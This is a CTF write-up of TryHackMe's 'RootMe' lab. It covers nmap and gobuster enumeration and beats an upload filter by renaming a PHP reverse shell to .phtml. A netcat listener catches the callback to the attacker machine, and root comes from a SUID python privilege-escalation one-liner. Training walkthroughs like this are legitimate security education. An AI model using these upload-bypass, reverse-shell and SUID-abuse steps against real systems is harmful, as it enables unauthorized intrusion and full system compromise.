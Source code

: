 ```yaml
---
title: "TryHackMe - RootMe"
author: Nasrallah
description: ""
date: 2022-01-03 00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, linux, web, gobuster, suid, privesc, python, reverse-shell, filter]
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---

Hello l33ts, I hope you are doing well. Today we are going to look at [RootMe](https://tryhackme.com/room/rrootme), a medium machine from TryHackMe. Let's start.

# **Description**

A ctf for beginners, can you root me?

# **Enumeration**

## nmap

Let's start our nmap scan:
`sudo nmap -sC -sV -T4 {target_IP} -oN nmap.scan`

-sV : find the version of all the service running on the target

-sC : run all the default scripts

-oN : save the output in a file called nmap


```terminal
$ sudo nmap -sC -sV -T4 10.10.125.128 -oN nmap.scan
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-03 03:17 EST
Nmap scan report for 10.10.125.128
Host is up (0.11s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: HackIT - Home
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.89 seconds

```

We have to open ports:
- 22(SSH)
- 80(http)

## Gobuster

Since we have a web server, let's do a directory scan using Gobuster:
`gobuster dir -w /usr/share/wordlists/dirb/common.txt -x php,txt -u {target_IP}`

```terminal
$ gobuster dir -w /usr/share/wordlists/dirb/common.txt -x php,txt -u http://10.10.125.128 | tee gobuster
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.125.128
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,txt
[+] Timeout:                 10s
===============================================================
2022/01/03 03:35:19 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/.htaccess.txt        (Status: 403) [Size: 278]
/.hta                 (Status: 403) [Size: 278]
/.htpasswd.php        (Status: 403) [Size: 278]
/.htaccess.php        (Status: 403) [Size: 278]
/.hta.php             (Status: 403) [Size: 278]
/.htpasswd.txt        (Status: 403) [Size: 278]
/.hta.txt             (Status: 403) [Size: 278]
/css                  (Status: 301) [Size: 312] [--> http://10.10.125.128/css/]
/index.php            (Status: 200) [Size: 616]                                 
/index.php            (Status: 200) [Size: 616]                                 
/js                   (Status: 301) [Size: 311] [--> http://10.10.125.128/js/]  
/panel                (Status: 301) [Size: 314] [--> http://10.10.125.128/panel/]
/server-status        (Status: 403) [Size: 278]                                   
/uploads              (Status: 301) [Size: 316] [--> http://10.10.125.128/uploads/]

===============================================================
2022/01/03 03:37:50 Finished
===============================================================
```

- dir : for directory scan
- u : URL
- w : Wordlist
- x : Search for extensions(php,txt,html..)

We found 2 directories that stand out: **/panel** and **/uploads**. Let's see what's on each one.

![panel](/assets/img/tryhackme/rootme/panel.png)

We have an upload page here, and everything we upload goes to the **/uploads** directory. with that, let's try to upload a php reverse shell. I will be using [pentestmonkey's reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php).

![error](/assets/img/tryhackme/rootme/error.png)

> you have to change the ip address in the script to your attacking machine's ip address: run the command `ip a show tun0` or `ifconfig` to get your ip address

![change-this](/assets/img/tryhackme/rootme/change.png)

Oh! It seems that we can't upload a `.php` file, let's try changing that extension to another one. Some of the extensions that we can use are:`.phar - .pht - phps - phtml - php3 - .php4 - .php5 - .php7`

After some try and error, we found that `.phtml` extension works.

# **Foothold**

Let's visit **/uploads** page, we should see our reverse shell there.

![shell](/assets/img/tryhackme/rootme/shell.png)

Let's now run a listener on our machine using this command `nc -nlvp 1234`.

> the port should be the same one in the reverse shell script!!

After that, let's execute the script by clicking on the file or by visiting it on (http://{target_IP}/uploads/shell.phtml)

```terminal
$ nc -lnvp 1234
listening on [any] 1234 ...
connect to [10.11.31.131] from (UNKNOWN) [10.10.125.128] 39406
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 09:33:55 up  1:48,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@rootme:/$ export TERM=xterm
export TERM=xterm
www-data@rootme:/$ ^Z       #typed ctrl+z
zsh: suspended  nc -lnvp 1234

┌──(kali㉿kali)-[]
└─$ stty raw -echo; fg                                                                                                                             148 ⨯ 1 ⚙
[1]  + continued  nc -lnvp 1234         #typed Enter

www-data@rootme:/$
```

We got our shell, i executed some command there to get a fully functional shell. The commands are:

```terminal
[target machine] python3 -c 'import pty;pty.spawn("/bin/bash")'

[target machine] export TERM=xterm

[target machine] ctrl+z

[attacker machine] stty raw -echo;fg
```

# **Privilege Escalation**

Let's now do some enumeration and see if we can find some privilege escalation vectors.
`sudo -l` and `id` are always the go to commands once you get access to a machine.

```terminal
www-data@rootme:/$ sudo -l
[sudo] password for www-data:
www-data@rootme:/$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@rootme:/$
```

That gave us nothing, let's search for some SUID binaries:

```terminal
www-data@rootme:/$ find / -type f -perm -04000 2>/dev/null                                                                                           [10/238]
/usr/lib/dbus-1.0/dbus-daemon-launch-helper                                                                                                                  
/usr/lib/snapd/snap-confine                                                                                                                                  
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic                                                                                                                   
/usr/lib/eject/dmcrypt-get-device                                                                                                                            
/usr/lib/openssh/ssh-keysign                                                                                                                                 
/usr/lib/policykit-1/polkit-agent-helper-1                                                                                                                   
/usr/bin/traceroute6.iputils                                                                                                                                 
/usr/bin/newuidmap                                                                                                                                           
/usr/bin/newgidmap                                                                                                                                           
/usr/bin/chsh                                                                                                                                                
/usr/bin/python
/usr/bin/at
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/newgrp
.
.
.
```

That gave us a lot of binaries, but the one that looks interesting for us is **/usr/bin/python**. After looking for python in [GTFOBins](https://gtfobins.github.io), we find that we can execute this command `python -c 'import os; os.execl("/bin/sh", "sh", "-p")'` to get a root shell, let's do it:

```terminal
www-data@rootme:/$ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
# whoami
root
# ls /root
root.txt
# ls /var/www
html  user.txt
#
```

Great, and just like that, we got root, I hope you guys enjoyed it.

See you in the next hack!
